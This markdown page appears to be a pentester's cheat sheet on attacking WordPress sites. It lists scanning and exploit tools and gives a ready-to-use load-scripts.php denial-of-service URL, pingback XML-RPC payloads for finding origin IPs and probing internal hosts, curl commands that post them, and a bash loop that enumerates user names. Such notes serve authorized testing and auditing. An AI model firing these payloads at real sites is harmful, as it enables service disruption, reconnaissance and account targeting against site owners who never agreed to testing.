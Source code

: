 +++
title = "Wordpress Security"
date = '2022-11-20'
description = 'Common misconfigurations, risky default settings, major mistakes, and general methodologies that are useful when pentesting/bug hunting/auditing wordpress websites.'
+++

## Wordpress Tools:
 - [https://github.com/wpscanteam/wpscan](WPScan) - One of the better tools at it's just.
 -- gem install wpscan
 -- docker pull wpscanteam/wpscan
 -- wpscan --update # updates the database
 -- Users of pentesting distrobutions generally should install the version from their repository.
 - [https://github.com/nullfil3/xmlrpc-scan](https://github.com/nullfil3/xmlrpc-scan)
 - [https://github.com/relarizky/wpxploit](https://github.com/relarizky/wpxploit)

## Wordpress Tricks:
### load-scripts.php denial of service
`load-scripts.php` resource exhaustion
**Wordpress versions 4.9.3** and prior:
/wp-admin/load-scripts.php?load=eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter

### Check IP behind Cloudflare
[https://blog.nem.ec/2020/01/22/discover-cloudflare-wordpress-ip/](https://blog.nem.ec/2020/01/22/discover-cloudflare-wordpress-ip/)
Get the IP address of a target wordpress website by abusing the ping-back feature

### Testing xml-rpc on all Wordpress versions
[https://nitesculucian.github.io/2019/07/01/exploiting-the-xmlrpc-php-on-all-wordpress-versions/](https://nitesculucian.github.io/2019/07/01/exploiting-the-xmlrpc-php-on-all-wordpress-versions/)

### pingback.xml
```
<?xml version="1.0" encoding="iso-8859-1"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
 <param>
  <value>
   <string>http://10.0.0.1/hello/world</string>
  </value>
 </param>
 <param>
  <value>
   <string>https://10.0.0.1/hello/world/</string>
  </value>
 </param>
</params>
</methodCall>

<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```

### Lsist available methods through xml-rpc
```
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```

`curl -X POST -d @pingback.xml https://exmaple.com/xmlrpc.php`

### Check for presence of xmlrpc
`curl -d '<?xml version="1.0" encoding="iso-8859-1"?><methodCall><methodName>demo.sayHello</methodName><params/></methodCall>' -k https://example.com/xmlrpc.php`

### Enumerate users
```
for i in {1..50}; do curl -s -L -i https://example.com/wordpress?author=$i | grep -E -o "Location:.*" | awk -F/ '{print $NF}'; done
```
[https://site.com/wp-json/wp/v2/users/](https://site.com/wp-json/wp/v2/users/)
